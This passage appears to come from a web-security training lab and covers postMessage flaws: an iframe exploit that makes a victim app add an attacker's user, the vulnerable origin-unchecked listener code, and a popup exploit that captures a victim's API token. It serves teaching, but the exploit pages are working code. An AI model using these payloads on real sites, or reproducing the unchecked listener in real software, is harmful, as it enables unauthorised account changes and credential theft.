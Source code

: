 ```html
<html>
<body>
<iframe src="http://localhost:9000/organization" id="victimWebsite" width="100%" height="100%"></iframe>
<script>
  document.addEventListener('readystatechange', () =>{
    victimWebsite.contentWindow.postMessage("<hacker_username>", '*')
  })
</script>
</body>
</html>
```

### Vulnerable Code

**View: /views/organization.ejs**

```
window.addEventListener('message', function (event) {
  var xhr = new XMLHttpRequest();
  xhr.onreadystatechange = function () {
    if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
      document.getElementById("userAddMessage").innerHTML = "User Added";
      loadUsers();
    }
  }
  xhr.open('POST', window.location.origin + '/organization/add-user')
  xhr.withCredentials = true;
  xhr.setRequestHeader('Authorization', '<%=token%>');
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr.send("user=" + event.data);
  })
```

## 12 Information Disclosure using addEventListener

In this exercise you will learn how insecure use of `postMessage` can be used to steal the sensitive information, `/api-token` page has a button to show your API Key, when you click on it, it will open a new popup window which will fetch the user API token and send it to the opener window using postmessage, Since it sends the message to the opener window without specifically specifying the origin, An attacker domain which opens the `/api-token/show` will be able to receive the API token.

### Exploit

Save the following HTML code in an HTML file, host it on your server and send the link to the victim you will see a popup showing the victim API token to further exploit you can send the API token to your attacker server.

```html
<html>
<body>
<script>
  window.open("http://tauheedkhan.com:9000/api-token/show", "popup");
  window.addEventListener("message", function(event){
    alert(event.data.token);
  })
</script>
</body>
</html>
```
